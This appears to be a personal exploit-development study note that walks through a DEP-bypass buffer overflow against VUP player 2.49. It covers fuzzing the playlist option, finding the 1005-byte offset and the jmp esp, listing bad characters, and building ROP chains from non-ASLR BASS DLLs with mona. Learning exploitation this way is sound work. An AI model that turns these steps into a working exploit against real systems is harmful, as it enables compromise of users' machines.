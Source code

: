 # dep bypass



### 1. Fuzz

- application use VUP player version 2.49
- access violation at playlist option



![image-20201219153125588](dep bypass.assets/image-20201219153125588.png)



### 2. offset

- finding offset 

```
!mona pattern_create 3000
!mona pattern_offset value
```

![image-20201219153235350](dep bypass.assets/image-20201219153235350.png)



##### offset address

```
1005 bytes
```



### 3. Return to stack

- we need to find jump esp code sequence
- so that we can pass execution to stack where code will reside



```
!mona jmp -r esp
```

![image-20201219153821971](dep bypass.assets/image-20201219153821971.png)



### 4. find badchars

```
!mona bytearray
```

```
!mona compare -f file -a address
```



##### badchars

```
"\x00\x09\x0a\x1a"
```





### 5. With DEP



1. we need to find modules with no aslr
2. so that restarting the system will not affect our exploit
3. then we can use mona to create rop chains with those modules



```
!mona modules
!mona rop -m modules -cpb badchars
```



```
!mona rop -m BASSWMA.dll,BASSMIDI.dll,BASS.dll -cpb "\x00\x09\x0a\x1a"
```

![image-20201219161530039](dep bypass.assets/image-20201219161530039.png)